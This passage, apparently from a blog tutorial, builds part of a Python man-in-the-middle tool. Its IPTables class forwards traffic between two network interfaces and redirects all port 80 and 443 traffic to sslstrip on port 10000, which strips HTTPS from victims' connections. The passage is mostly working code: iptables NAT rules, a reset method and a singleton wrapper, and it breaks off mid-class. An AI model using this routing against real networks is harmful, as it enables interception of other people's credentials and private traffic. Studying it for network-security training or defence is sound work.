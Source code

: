Our IPTables class is responsible for interacting with the iptables daemon. This means that if we instantiate multiple IPTables objects, they will implicitly have shared state: the state of the iptables daemon itself.  Since dealing with this can be messy, we're going to take the easy way out and only allow one instance of the IPTables class at any given time. We do this by giving the IPTables class an \_instance attribute, which is set to None by default. Instead of calling the constructor to instantiate new IPTables objects, we call a static method named get\_instance(). This static method first checks to see if \_instance is set to None. If \_instance is None, it means that we have not yet instantiated any IPTables objects, so we set \_instance to a new IPTables object.  We then return the sole IPTables instance stored in \_instance. From the calling function, this operation would look like this:

{% highlight python %}
iptables = IPTables.get_instance()
{% endhighlight %}

Next we give our IPtables class a method with which it can route traffic between our two
network interfaces while diverting all http(s) traffic to sslstrip.

{% highlight python %}

    def route_to_sslstrip(self, phys, upstream):

		bash_command('iptables --table nat --append POSTROUTING --out-interface %s -j MASQUERADE' % phys)
	        

		bash_command('iptables --append FORWARD --in-interface %s -j ACCEPT' % upstream)
	
	    bash_command('iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000')
	    bash_command('iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 10000')
	
	    bash_command('iptables -t nat -A POSTROUTING -j MASQUERADE')

{% endhighlight %}

Finally, we want to be able to restore iptables to its default state before and after we
use it. We do this by implementing the following method:

{% highlight python %}
    def reset(self):

        bash_command('iptables -P INPUT ACCEPT')
        bash_command('iptables -P FORWARD ACCEPT')
        bash_command('iptables -P OUTPUT ACCEPT')

        bash_command('iptables --flush')
        bash_command('iptables --flush -t nat')
{% endhighlight %}

Our completed IPTables class should look something like this:

{% highlight python %}
class IPTables(object):

    _instance = None
    
    def __init__(self):
        
        self.running = False
        self.reset()

    @staticmethod
    def get_instance():
        
        if IPTables._instance is None:
            IPTables._instance = IPTables()
        return IPTables._instance

    def route_to_sslstrip(self, inet_nic, listen_nic):

	    bash_command('iptables --table nat --append POSTROUTING --out-interface %s -j MASQUERADE' % inet_nic)
	    